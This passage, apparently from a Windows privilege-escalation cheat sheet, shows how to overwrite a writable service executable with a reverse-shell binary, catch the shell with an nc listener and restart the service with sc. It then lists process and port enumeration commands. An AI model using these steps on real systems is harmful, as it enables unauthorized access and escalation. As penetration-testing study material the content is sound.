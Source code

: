 ```bash
echo "test" > \path\to\service-folder\test.txt
dir \path\to\service-folder
```

If we could write arbitrary file under the service folder, we may be able to replace the executable file as below:

```bash
cp revshell.exe \path\to\service-folder\example-service.exe
```

For example, if we want to do reverse shell, we need to prepare a net listener on our local machine:

```bash
nc -lvnp 4444
```

Now restart the service on target machine:

```bash
sc stop "example-service"
sc start "example-service"
```

When the service restarts, our 'evil' executable is executed in stead of the original executable.  
After few seconds, we might be able to get the shell on local machine.

<br />

## Running Processes

```bash
# -a: All connections and ports
# -f: Display FQDN (Fully Qualified Domain Names)
# -o: Display the owning process ID associated with each connection
netstat -afo
# -n: Display address and port in numerical form (not resolve domain)
netstat -ano

tasklist
Get-Process
ps
# Exclude `svchost`
Get-Process | where {$_.ProcessName -notlike "svchost*"}

# Display only `LISTENING` processes
netstat -afo | Select-String -Pattern "LISTENING"
```

<br />

## Histories

### Command History in PowerShell Console
